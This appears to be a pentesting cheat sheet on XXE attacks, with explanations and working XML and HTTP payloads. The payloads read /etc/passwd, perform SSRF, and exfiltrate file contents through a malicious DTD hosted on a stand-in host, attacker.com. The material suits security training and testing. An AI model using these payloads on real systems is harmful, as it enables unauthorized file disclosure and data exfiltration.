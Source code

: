 # XXE

<details>

<summary>Introduction</summary>

**What is XML**

* Some applications use the XML format to transmit data between the browser and the server.
* Its popularity has now declined in favor of the JSON format

**XXE Impact**

* Retrieve files
* Perform SSRF attacks

</details>

## <mark style="color:purple;">Retrieve files</mark>

1. Introduce (or edit) a `DOCTYPE` element defining an external entity with the file path.
2. Edit a data value in the XML returned in the app's response to use the defined external entity.

{% hint style="info" %}
**Note**: to systematically test for XXE, test each data node in the XML individually using your defined entity to see if it appears in the response.
{% endhint %}

***

**Original**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck> 
```

**Exploitation**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

## <mark style="color:purple;">Perform SSRF attacks</mark>

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
<stockCheck><productId>1&xxe;</productId><storeId>1</storeId></stockCheck>
```

## <mark style="color:purple;">Blind XXE</mark>

### <mark style="color:purple;">Out-of-band (OAST) techniques</mark> <a href="#detecting-blind-xxe-using-out-of-band-oast-techniques" id="detecting-blind-xxe-using-out-of-band-oast-techniques"></a>

**Detection**

* Detecting as SSRF
  * ```xml
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker.com/"> ]>
    ```
* Regular entities are blocked? Bypass via XML parameter entities
  * ```xml
    <!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://attacker.com"> %xxe; ]>
    ```
  * This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD

**Exploitation**

1. Start a web server and host on `http://attacker.com/example.dtd` this malicious dtd.

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % stack "<!ENTITY &#x25; exfil SYSTEM 'http://attaccker.com/?x=%file;'>">
%stack;
%exfil;
```

2. Add this external entity

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/example.dtd"> %xxe;]>
```

{% hint style="info" %}
**Note**: This technique might not work with multiline files.
{% endhint %}

### <mark style="color:purple;">Via error messages</mark> <a href="#exploiting-blind-xxe-to-retrieve-data-via-error-messages" id="exploiting-blind-xxe-to-retrieve-data-via-error-messages"></a>

Trigger an XML parsing error message with the file contents.

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

{% hint style="info" %}
**Note**: This works if you notice an error in the response when detecting with OAST (e.g., the reflected URL entered).
{% endhint %}

## <mark style="color:purple;">Hidden attack surface</mark>

* **First case** - Requests that contain data in XML format
* **Second case -** Requests that do not contain any XML
  * **Detection**: Add entity reference that doesn't exist to cause an error  -> ok it's XML

### <mark style="color:purple;">XInclude attacks</mark>

Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document.

`XInclude` is a part of the XML specification that allows an XML document to be built from sub-documents.

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

```http
POST /product/stock HTTP/2
Host: vulnerable.website.com
[...]



productId=<foo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude">
<xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/passwd"/></foo>&storeId=1
```

### <mark style="color:purple;">Via file upload</mark>

Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like DOCX and image formats like SVG.

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

This works if it's used image processing library & support SVG images & allow external entity.

### <mark style="color:purple;">Via modified content type</mark>

Some web app will tolerate other content types.

**Expected request**

```http
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

**Sumbit following request**

```http
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```
